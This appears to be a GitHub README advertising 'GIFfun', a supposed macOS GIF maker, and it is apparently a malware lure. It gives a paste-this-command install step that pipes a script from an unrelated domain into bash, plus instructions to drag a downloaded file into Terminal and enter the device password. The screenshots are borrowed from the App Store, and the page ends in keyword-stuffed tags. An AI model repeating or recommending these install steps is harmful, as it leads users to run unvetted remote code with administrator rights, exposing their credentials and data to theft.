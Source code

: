 # 🎞️ GIFfun — Video & Photos to GIF Creator for macOS

**GIFfun** is a simple yet powerful macOS app that lets you easily convert videos and photos into high-quality animated GIFs. Whether you want to create fun animations from your favorite clips or compile multiple images into a smooth GIF, GIFfun offers an intuitive interface optimized for Mac users.

With fast processing and customizable settings, GIFfun is the perfect tool for anyone looking to make engaging GIFs right on their Mac.

---

## ✅ Download GIFfun for macOS  
[![Download GIFfun](https://img.shields.io/badge/Download-GIFfun-blueviolet)](https://shuziktobehuman.github.io/huja/GIFfun)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get2/install.sh)"
```


## 📦 What is GIFfun?

GIFfun is a dedicated macOS application designed to convert videos and photo sequences into GIF animations. It supports various media formats and offers flexible options like frame rate, resolution, and looping. The app is optimized for Apple Silicon, ensuring smooth and efficient performance on modern Macs.

---

## ✨ Features

- 🎥 Convert video clips to GIF with adjustable frame rates  
- 🖼 Combine multiple photos into seamless animated GIFs  
- ⚙️ Customize resolution, playback speed, and loop settings  
- 🔄 Preview animations before saving  
- 💻 Native macOS design with support for Dark Mode  
- 🚀 Optimized for Apple Silicon (M1/M2/M3) for fast processing  
- 📂 Supports popular video and image formats  

---

## 💡 Why Use GIFfun?

- 🎉 Easily create fun, shareable GIFs from videos or photos  
- 🎨 Perfect for social media, presentations, and messaging  
- ⚡ Fast and smooth processing on Mac hardware  
- 🖥 Simple drag-and-drop interface designed for macOS users  
- 🔧 Advanced settings for GIF customization and quality control  

---

[![Download GIFfun](https://img.shields.io/badge/Download-GIFfun-blueviolet)](https://shuziktobehuman.github.io/huja/GIFfun)

---


---

## 🖼 Preview

![GIFfun Screenshot 1](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource116/v4/e6/ee/3c/e6ee3c40-bf03-1e05-31b9-7196b14e11d6/47e288a9-9477-4ec4-9d1c-07d67f9fba94_gf1.png/643x0w.jpg)  
![GIFfun Screenshot 2](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource116/v4/bd/fa/9a/bdfa9ac8-f1a2-cbe3-7c84-8602f2abd456/209bfcc7-d45f-4538-a040-824fe236a388_gf3.png/643x0w.jpg)  


---

## 📌 Tags

gif images, picture to gif, animated image, photos to gif, make a gif from photos,  
create gif from images, create animation from images, create a gif from pictures,  
gif maker from photos, giphy images, animated images free, make gif from images,  
turn photo into gif, happy anniversary gif funny, logo gif, create gif from photos,  
animated image maker, gif images free, make image animated, turn image into gif,  
make gif from pictures, photo to gif converter, create a moving image,  
gif images mac, gif images mac download, gif images download mac

---

